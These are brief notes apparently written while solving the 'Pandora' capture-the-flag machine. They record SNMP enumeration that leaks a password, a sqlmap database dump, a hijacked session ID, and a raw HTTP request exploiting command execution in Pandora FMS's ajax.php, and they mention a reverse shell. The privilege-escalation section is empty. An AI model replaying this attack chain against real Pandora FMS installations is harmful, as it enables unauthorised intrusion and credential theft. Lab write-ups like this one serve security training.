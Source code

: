 # Pandora

---

## Enumeration

- nmap shows port 161 UDP open for snmp
- 

---

## Foothold

### SNMP

- `snmpwalk -v 1 -c public $IP`
- Got creds: `Daniel:HotelBabylon23`
- User flag is under user Matt
- Forwarded port 80 through SSH
- Pandora FMS Login form? sqli?
- Found metasploit module RCE
- used sqlmap to dump database

```
tpassword_history
tsessions_php
```

- Passwords in `tpassword_history` cannot be cracked.
- Stole valid session ID as Matt: `g4e01qdgk36mfdh90hvcc54umq`
- RCE vuln in POST Req to `/ajax.php`
- Got revshell as matt

```
POST /pandora_console/ajax.php HTTP/1.1
Host: localhost
Content-Length: 88
sec-ch-ua: "Chromium";v="105", "Not)A;Brand";v="8"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/pandora_console/index.php?sec=eventos&sec2=operation/events/events
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ddhf6p3piuq2dut7djt2vmedom
Connection: close

page=include%2Fajax%2Fevents&target=whoami&response_id=1&perform_event_response=10000000
```

- 

---

## PrivEsc

